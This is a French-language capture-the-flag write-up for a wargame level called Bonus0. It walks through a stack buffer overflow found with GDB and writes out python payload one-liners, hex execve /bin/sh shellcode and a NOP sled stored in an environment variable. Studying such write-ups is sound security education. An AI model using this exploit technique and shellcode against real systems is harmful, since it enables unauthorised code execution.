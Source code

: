 ## Bonus0

Au premier lancement, le binaire attend un premier argument sur l'entrée
standart, puis un deuxieme.

On observe un appel a `pp()`, qui fait deux appel a `p()`. C'est cette fonction
qui va nous intéresser. Elle affiche le caractère ` - `, lit sur l'entrée
standard, et stocke le resultat dans un buffer de `4096` bytes. Ensuite l'appel
a `strchr()` va checher le caractère `10 (\n)` dans le buffer, et le remplace
par `0 (\0)`, enfin, l'appel a `strncpy()` copie les 20 premiers bytes du buffer
dans la destination passé en argument a la fonction `p()`.

Cette fonction est vulnérable, en particulier l'appel a `strchr()`, car si aucun
`\n` n'est présent dans le buffer, la fonction renvoie `NULL`, et l'instruction d'après
essayera d'ecraser la valeur de cette adresse par `\0`.

#### Amusons nous a présent avec la mémoire

![image](https://user-images.githubusercontent.com/29956389/90001786-2a39fa00-dc92-11ea-94b4-af8989aa97d5.png)

On segfault sur `0x45444444` soit `DDDE`, l'offset est de `9` bytes. Le but est donc d'y insérer l'adresse
de notre shellcode.

On utilisera un fichier pour insérer notre input, cela sera plus facile que
d'insérer des caractères non-imprimables a la main dans GDB.

`$ python -c 'print 'i'*64 + '\x0a' + 'ABCDEFGHI' + '\xef\xbe\xad\xde' + '\x0a' > /tmp/xploit`

![image](https://user-images.githubusercontent.com/29956389/90002664-3ecac200-dc93-11ea-8bb9-36ca70d1177b.png)

On obtient un `SIGSEGV` sur une adresse différente, et dans la fonction `p()`,
bizarre. Observons ce qui se passe avec un breakpoint avant l'appel a `strchr()`:

![image](https://user-images.githubusercontent.com/29956389/90003198-07104a00-dc94-11ea-818b-b6eecc69e87d.png)

On observe que la premier ligne `iiii...` est évalué une deuxième fois par
`strchr()`, alors que le `\n` a déja été remplacé par une `\0`, ce qui explique
le `SIGSEGV` a l'instruction d'apres:

![image](https://user-images.githubusercontent.com/29956389/90003648-a8979b80-dc94-11ea-877c-81d9e1f0801f.png)

Cela est du au fonctionnement de `read()` (On se souvient du GetNextLine), tout
le fichier est lu jusqu'au `\0` ou `4096` bytes. Notre ligne avec notre adresse
a executer se retrouve au mauvais endroit dans la stack! Il faut donc remplacer
`print 'i'*64 + '\x0a'` dans notre commande par `print 'i'*4095 + '\x0a'`.

On réesaye avec la commande corrigé:

`$ python -c 'print "i"*4095 + "\x0a" + "ABCDEFGHI" + "\xef\xbe\xad\xde" + "\x0a"' > /tmp/xploit`

![image](https://user-images.githubusercontent.com/29956389/90004167-7fc3d600-dc95-11ea-8834-ed5521ee6067.png)

Toujours pas! On regarde donc a nouveau l'entrée qu'on avait mit en premier pour faire segfault notre binaire au début. La seule différence est la longueur de notre deuxieme chaine de caractères. Essayons alors de rajouter quelques bytes a la fin, et prennons `20 bytes` comme référence (`strncpy(dest, &buffer, 20)`):

Soit:

`$ python -c 'print [4095 bytes] + "\n" + [9 bytes] + [4 bytes de notre adresse] + [20 - (9 + 4) = 7 bytes] + "\x0a"' > /tmp/xploit`

Ce qui donne:

`python -c 'print "i"*4095 + "\x0a" + "ABCDEFGHI" + "\xef\xbe\xad\xde" + "1234567" + "\x0a"' > /tmp/xploit`

![image](https://user-images.githubusercontent.com/29956389/90004691-5eafb500-dc96-11ea-8e7d-504a6c3fa35b.png)

Cela marche enfin !

On a maintenant le choix d'inserer notre nopsled + shellcode soit dans le
buffer, soit dans l'environement, nous choissisons la deuxieme, pour aucune
raison particulière.

`$ echo -ne
'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' > /tmp/shellcode.bin`

`$ export SLEDCODE=$(python -c 'print "\x90"*512')$(cat /tmp/shellcode.bin)`

On localise l'adresse du sled:

`(gdb)> x/4s *((char**)environ + 8)`

`> de 0xbffff6c2 a 0xbffff8f4`

`0xbffff6c2 + 256 (Taille sled / 2) = 0xbffff7c2`

Et on lance:

`python -c 'print "i"*4095 + "\x0a" + "ABCDEFGHI" + "\xc2\xf7\xff\xbf" +
"1234567" + "\x0a"' > /tmp/xploit`

![image](https://user-images.githubusercontent.com/29956389/90006073-830c9100-dc98-11ea-923a-b5efe5915dc7.png)

On essaye donc en dehors de GDB:

![image](https://user-images.githubusercontent.com/29956389/90006208-bea75b00-dc98-11ea-9826-ed0bcc70237b.png)

